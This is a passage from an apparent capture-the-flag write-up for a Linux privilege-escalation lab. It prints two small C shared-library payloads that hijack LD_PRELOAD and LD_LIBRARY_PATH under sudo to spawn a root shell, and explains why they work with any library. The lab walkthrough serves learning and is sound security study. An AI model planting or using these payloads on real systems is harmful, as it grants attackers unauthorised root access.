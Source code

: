 yes, it works even for other libraries, this is due to nature of the source code of the exploits

![change libs](/assets/thm/linuxprivesc/linuxprivesc8.png)

to elaborate, the contents of `/home/user/tools/sudo/preload.c` is

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```

and the contents of `/home/user/tools/sudo/library_path.c` is

```c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
	unsetenv("LD_LIBRARY_PATH");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```

basically, these programs run a system call to `/bin/bash` to spawn a shell and since we run it with sudo, we get a root shell

so this is why the process is independent of the library called

## Task 8 - Cron Jobs - File Permissions
